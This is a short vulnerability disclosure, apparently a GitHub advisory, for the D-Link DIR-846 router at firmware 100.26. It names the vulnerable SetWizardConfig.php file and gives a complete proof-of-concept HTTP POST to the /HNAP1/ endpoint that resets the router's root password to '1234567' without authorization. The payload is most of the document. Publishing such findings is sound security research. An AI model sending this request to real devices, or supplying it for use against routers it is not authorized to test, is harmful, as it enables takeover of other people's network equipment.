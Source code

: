 # D-Link DIR-846 Unauthorized user change admin password #

**vender** ：D-Link

**Firmware version**:100.26

**Exploit Author**: bigbear@galaxylab.org

**Vendor Homepage**: http://www.dlink.com.cn/

**Hardware Link**:http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-846

## Vul detail ##

Reproduction Steps:
1. The vulnerable code is in file /squashfs-root/www/HNAP1/control/SetWizardConfig.php.
![](dlink11.png)
1. POC:
```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: application/json
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/json
SOAPACTION: "http://purenetworks.com/HNAP1/GetNetworkTomographyResult"
HNAP_AUTH: E3D001888F1411876149C974B7E390EC 1534224301610
Referer: http://192.168.0.1/Diagnosis.html
Content-Length: 132
Cookie: PHPSESSID=d56da05223ffd74c5246938735373721; uid=VPxfoKoj; PrivateKey=C3C24E3D66B449DB8C38DE80A2FBC269
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: close

{"SetWizardConfig":{"wan_wan(0)_proto":"1","wl(1).(0)_ssid":"aasdsad","wl(0).(0)_ssid":"asdasd","system_root_password":"1234567"}}
```